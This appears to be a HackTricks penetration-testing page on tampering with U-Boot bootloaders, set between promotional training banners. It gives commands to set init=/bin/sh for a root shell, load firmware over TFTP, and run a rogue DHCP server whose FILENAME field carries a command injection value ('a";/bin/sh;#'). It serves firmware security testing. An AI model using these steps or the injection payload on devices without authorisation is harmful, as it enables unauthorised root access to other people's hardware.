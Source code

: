 

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

The following steps are recommended for modifying device startup configurations and bootloaders like U-boot:

1. **Access Bootloader's Interpreter Shell**:
   - During boot, press "0", space, or other identified "magic codes" to access the bootloader's interpreter shell.

2. **Modify Boot Arguments**:
   - Execute the following commands to append '`init=/bin/sh`' to the boot arguments, allowing execution of a shell command:
     %%%
     #printenv
     #setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
     #saveenv
     #boot
     %%%

3. **Setup TFTP Server**:
   - Configure a TFTP server to load images over a local network:
     %%%
     #setenv ipaddr 192.168.2.2 #local IP of the device
     #setenv serverip 192.168.2.1 #TFTP server IP
     #saveenv
     #reset
     #ping 192.168.2.1 #check network access
     #tftp ${loadaddr} uImage-3.6.35 #loadaddr takes the address to load the file into and the filename of the image on the TFTP server
     %%%

4. **Utilize `ubootwrite.py`**:
   - Use `ubootwrite.py` to write the U-boot image and push a modified firmware to gain root access.

5. **Check Debug Features**:
   - Verify if debug features like verbose logging, loading arbitrary kernels, or booting from untrusted sources are enabled.

6. **Cautionary Hardware Interference**:
   - Be cautious when connecting one pin to ground and interacting with SPI or NAND flash chips during the device boot-up sequence, particularly before the kernel decompresses. Consult the NAND flash chip's datasheet before shorting pins.

7. **Configure Rogue DHCP Server**:
   - Set up a rogue DHCP server with malicious parameters for a device to ingest during a PXE boot. Utilize tools like Metasploit's (MSF) DHCP auxiliary server. Modify the 'FILENAME' parameter with command injection commands such as `'a";/bin/sh;#'` to test input validation for device startup procedures.

**Note**: The steps involving physical interaction with device pins (*marked with asterisks) should be approached with extreme caution to avoid damaging the device.


## References
* [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


